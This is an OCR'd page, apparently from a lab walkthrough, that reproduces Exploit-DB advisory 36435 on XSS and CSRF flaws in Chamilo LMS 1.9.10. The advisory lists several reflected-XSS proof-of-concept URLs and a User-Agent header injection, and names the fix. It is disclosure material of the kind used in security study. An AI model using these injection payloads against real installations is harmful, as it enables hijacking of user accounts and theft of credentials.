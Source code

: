 `cp /usr/share/exploitdb/exploits/php/webapps/36435.txt ./`

`cat ./36435.txt`:
```
I. Overview
========================================================
Chamilo LMS 1.9.10 or prior versions are prone to a multiple Cross-Site Scripting (Stored + Reflected) & CSRF vulnerabilities. These vulnerabilities allows an attacker to gain control over valid user accounts in LMS, perform operations on their behalf, redirect them to malicious sites, steal their credentials, and more.

II. Severity
========================================================
Rating: High
Remote: Yes
Authentication Require: Yes
CVE-ID:

III. Vendor's Description of Application
========================================================
Chamilo LMS, or Chamilo Learning Management System is a piece of software that allows you to create a virtual campus for the provision of online or semi-online training. It is distributed under the GNU/GPLv3+ license and its development process is public. All the Chamilo software products are entirely free (as in freedom), free (as in beer) and complete, and are production-ready without requiring any type of payment.

https://chamilo.org/chamilo-lms/

IV. Vulnerability Details & Exploit
========================================================
1) Multiple Reflected XSS Request 📌

Request Method = GET

XSS PoC's:-

/main/calendar/agenda_list.php?type=personal%27%20onmouseover=%27confirm%280%29%27/%3E%3C!-- 📌
/main/messages/outbox.php?f=social"+onmouseover="confirm(0)
/main/mySpace/student.php?keyword=31337"+onmouseover=confirm(0)//&active=0&_qf__search_user=&submit=Search
/main/inc/lib/fckeditor/editor/plugins/ajaxfilemanager/ajax_get_file_listing.php?editor=stand_alone&view=thumbnail&search=1&search_name=admin&search_recursively=0&search_mtime_from=&search_mtime_to=&search_folder=;</script><script>confirm(0)</script>
/main/admin/configure_extensions.php?display=</script><script>confirm(0)</script>
/main/admin/course_category.php?action=add&category="/><script>confirm(0)</script>
/main/admin/session_edit.php?page=resume_session.php%22%20onmouseover=confirm%280%29//&id=1

b) User Agent Header XSS (Reflected) 📌
GET /main/admin/system_status.php?section=webserver 📌
User-Agent: <script>confirm(0)</script> 📌
__________________________________________________________


[...]

VI. Affected Systems
========================================================
Software: Chamilo LMS
Version: 1.9.10 and Prior`📌
Solution (Fix): Upgrade to 1.9.11 (https://github.com/chamilo/chamilo-lms/)

[...] 
```
